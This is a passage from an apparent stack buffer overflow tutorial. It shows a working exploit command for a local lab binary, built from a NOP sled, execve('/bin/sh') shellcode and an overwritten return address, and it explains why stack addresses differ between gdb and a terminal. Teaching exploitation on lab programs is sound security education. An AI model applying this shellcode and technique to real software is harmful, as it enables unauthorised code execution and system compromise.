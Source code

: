 We got a shell! 

Next, we'll leave gdb and try to exploit the program in a terminal.


#### Getting a shell in a terminal

Run the program with the same input as given in gdb:

```bash
$ ./bo_vuln1 `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\xa8\xd5\xff\xff\xff\x7f"'`
Segmentation fault (core dumped)
```

A failure!

This happens because gdb and various terminals have a different number of environment variables resulting in non-equal stack addresses. Environment variables push the stack higher towards lower addresses.

We got two choices:

1) Keep guessing the ret address until we hit our NOP-sled.
2) Make sure gdb and terminals have the same stack addresses.

Choice number 1 will can be tedious since our program has a pretty small NOP-sled.

Choice number 2 is more interesting. The following program will be used to illustrate the differences in the stack addresses:

```c
/*
 * address.c
 * gcc address.c -o address -std=c99
 */

#include <stdio.h>

int main()
{
    int buffer[50];
    printf("Address of buffer: %p\n", (void *)&buffer);
}
```

Note the address in gdb:

```bash
$ gdb address
(gdb) run
Address of buffer: 0x7fffffffd5b0
```

Then look at the address in a terminal:

```bash
$ ./address
Address of buffer: 0x7fffffffd5e0
```
